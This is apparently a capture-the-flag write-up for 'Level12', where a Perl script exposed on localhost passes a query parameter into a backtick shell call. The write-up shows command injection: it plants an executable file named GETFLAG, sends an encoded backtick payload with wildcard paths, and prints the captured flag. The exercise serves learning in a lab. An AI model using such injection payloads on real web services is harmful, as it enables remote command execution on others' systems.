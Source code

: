 # Level12

## Context
We found `level12.pl` perl executable file in our home.

We can use it this way : `curl localhost:4646/level12.pl/?x=text`

## Resolution
 * The file get's our parameter X, keeps the part before the first whitespace and put everything in uppercase, which is then passed inside this line:
 ```
   @output = `egrep "^$xx" /tmp/xd 2>&1`;
 ```

we can abuse the backticks
 * Let's first create an uppercase file `GETFLAG` in `/var/crash/` whith execute rights
 ```sh
echo "getflag > /var/crash/level12_output.txt" > /var/crash/GETFLAG
chmod +x /var/crash/GETFLAG
 ```
 * we want to execute: 
 ```sh
 curl localhost:4646/level12.pl?x=\`/\*/\*/getflag\` 
 ```
 but it needs to be encoded, we can use this site : https://meyerweb.com/eric/tools/dencoder/
 * which gives us: `curl localhost:4646/level12.pl?x=%60%2F*%2F*%2Fgetflag%60`
 * If we `cat /var/crash/level12_output.txt` we get the flag: `g1qKMiRpXf53AWhDaU7FEkczr`
